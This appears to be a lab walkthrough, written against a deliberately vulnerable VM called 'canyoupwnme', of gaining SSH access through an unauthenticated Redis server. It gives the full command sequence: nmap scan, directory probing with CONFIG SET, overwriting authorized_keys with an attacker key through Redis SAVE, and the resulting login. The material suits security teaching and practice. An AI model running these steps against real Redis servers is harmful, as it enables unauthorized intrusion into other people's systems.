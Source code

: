 # Redis

By exploiting the Redis' vulnerability presented by antirez in
[his blog post](http://antirez.com/news/96), we'll try to get access to the
target machine.

## Port scanning to identify Redis

Let's try to scan the target machine (`canyoupwnme`)

    $ nmap -A -T4 -sT -p1-65535 canyoupwnme
    ...
    1322/tcp  open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
    ...
    6379/tcp  open  redis       Redis key-value store
    ...

Seems that Redis is binded on the default port.

## Check for Redis AUTH

By using `telnet`, verify if Redis requires authentication

    $ telnet canyoupwnme 6379
    Trying 10.0.100.195...
    Connected to canyoupwnme.pentest.
    Escape character is '^]'.
    echo "You can pwn me!!!"
    $15
    You can pwn me!!!
    quit
    +OK
    Connection closed by foreign host.

Yep! Redis does not require AUTH. Before going ahead, let's get some system
information via Redis `INFO` command

    $ redis-cli -h canyoupwnme
    canyoupwnme:6379> INFO
    # Server
    redis_version:3.0.7
    ...
    os:Linux 3.19.0-25-generic i686
    arch_bits:32
    ...
    gcc_version:4.8.4
    ...
    config_file:/etc/redis/6379.conf
    ...

## Preparing the SSH key

The antirez's attack exploits Redis to upload the SSH pubkey on the target
machine. Let's start by creating a new set of keys.

    $ mkdir ssh-redis
    $ ssh-keygen -f ./ssh-redis/attacker

## Identify the right path on the target machine

By using `redis-cli` tool as oracle, we identify user's home path(s). The idea
is to exploit the `redis-cli` return messages.

    $ redis-cli -h canyoupwnme CONFIG SET dir "/root"
    OK

    $ redis-cli -h canyoupwnme CONFIG SET dir "/xxx/yyy"
    (error) ERR Changing directory: No such file or directory

By using a usernames wordlist and a simple Python script we iterate over all
the usernames in order to check all the paths formed as follows

    /home/<username>/.ssh

After a while, we get the following path

    /home/user/.ssh

## Do the attack

As indicated by antirez, the idea at the base of the attack is to use the
`SAVE` command to overwrite the `authnorized_keys` file. All the attack's
steps are well explained in the antirez's blog.

*   generating the blob to be injected

        $ echo -e '\n\n' >> blob.txt
        $ cat ssh-redis/attacker.pub >> blob.txt
        $ echo -e '\n\n' >> blob.txt

*   getting the current Redis' configuration (`dir` is already set due to the
    path's identification step)

        $ redis-cli -h canyoupwnme
        canyoupwnme:6379> CONFIG GET dir
        1) "dir"
        2) "/home/user/.ssh"
        canyoupwnme:6379> CONFIG GET dbfilename
        1) "dbfilename"
        2) "dump.rdb"

*   update the Redis' configuration

        $ redis-cli -h canyoupwnme
        canyoupwnme:6379> CONFIG SET dbfilename "authorized_keys"
        canyoupwnme:6379> CONFIG GET dir
        1) "dir"
        2) "/home/user/.ssh"
        canyoupwnme:6379> CONFIG GET dbfilename
        1) "dbfilename"
        2) "authorized_keys"

*   do the attack

        $ # flushing the current Reids' db
        $ redis-cli -h canyoupwnme flushall
        OK
        $ # set the `sshblob` key with the SSH pubkey value
        $ cat blob.txt | redis-cli -h canyoupwnme -x set sshblob
        OK
        $ # save the current db in /home/user/.ssh/authorized_keys file
        $ redis-cli -h canyoupwnme save
        OK

*   try SSH login

        $ ssh -l user -i ssh-redis/attacker canyoupwnme -p1322

          G:                ,;
          E#,    :        f#i                        .Gt  t    j.
          E#t  .GE      .E#t                        j#W:  Ej   EW,
          E#t j#K;     i#W,     t      .DD.       ;K#f    E#,  E##j
          E#GK#f      L#D.      EK:   ,WK.      .G#D.     E#t  E###D.
          E##D.     :K#Wfff;    E#t  i#D       j#K;       E#t  E#jG#W;
          E##Wi     i##WLLLLt   E#t j#f      ,K#f   ,GD;  E#t  E#t t##f
          E#jL#D:    .E#L       E#tL#i        j#Wi   E#t  E#t  E#t  :K#E:
          E#t ,K#j     f#E:     E#WW,          .G#D: E#t  E#t  E#KDDDD###i
          E#t   jD      ,WW;    E#K:             ,K#fK#t  E#t  E#f,t#Wi,,,
          j#t            .D#;   ED.                j###t  E#t  E#t  ;#W:
           ,;              tt   t                   .G#t  E#t  DWi   ,KK:
                                                      ;;  ,;.

                                                           by canyoupwn.me

        Welcome to Ubuntu 14.04.3 LTS (GNU/Linux 3.19.0-25-generic i686)

         * Documentation:  https://help.ubuntu.com/

          System information as of Fri Apr 15 10:50:08 EEST 2016

          System load: 0.0               Memory usage: 3%   Processes:       79
          Usage of /:  32.5% of 6.50GB   Swap usage:   0%   Users logged in: 0

          Graph this data and manage this system at:
            https://landscape.canonical.com/

        151 packages can be updated.
        79 updates are security updates.

        Last login: Thu Apr 14 20:02:53 2016 from kali.pentest
        user@canyoupwnme:~$ whoami
        user
        user@canyoupwnme:~$ pwd
        /home/user
